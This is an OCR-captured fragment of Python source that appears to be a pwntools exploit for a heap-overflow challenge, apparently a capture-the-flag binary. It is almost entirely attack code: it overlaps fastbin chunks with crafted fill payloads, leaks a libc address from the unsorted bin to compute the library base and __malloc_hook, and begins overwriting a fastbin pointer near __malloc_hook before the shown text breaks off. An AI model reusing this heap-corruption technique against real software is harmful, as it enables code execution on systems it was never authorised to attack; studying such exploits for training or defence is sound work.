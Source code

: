 ```python
	p.sendline(str(num))

def dump(num):
	
	p.sendline('4')
	p.sendline(str(num))
	x=p.recvuntil('Content: \n')
	
	return p.recv()




def fast():
       
	alloc(0x10) #0
	alloc(0x10) #1
	alloc(0x10) #2
	alloc(0x10) #3
	alloc(0x80) #4
        
	free(1)
	free(2)
	
	pay=0x10*'a'
	pay+=p64(0)+p64(0x21)
	pay+=p64(0x88)+p64(0x88)
        pay+=p64(0)+p64(0x21) 
        pay+=p8(0x80)
	fill('0',pay)
	
	pay='a'*0x10
	pay+=p64(0)+p64(0x21)
	fill('3',pay)

	alloc(0x10) #1
	alloc(0x10) #2
	fill(1,'aaaa')
	fill(2,'bbbb')
	#free(1)
	#free(2)

	#gdb.attach(p)

def leak():
	global base,malloc_hook
	pay=p64(0)*3+p64(0x91)
	fill('3',pay)
	alloc(0x80) #5
	free(4)
	
	addr=u64(dump(2)[:8])
	print(addr)
	base=addr-0x3c4b78
	malloc_hook=base+0x3c4b10
	log.info("libc_base: "+hex(base))
	log.info("malloc_hook:"+hex(malloc_hook))	
 	
def pwn():
	alloc(0x60) #4
	free(4)
	fill('2',p64(malloc_hook-0x30+0xd))
	#gdb.attach(p)
```
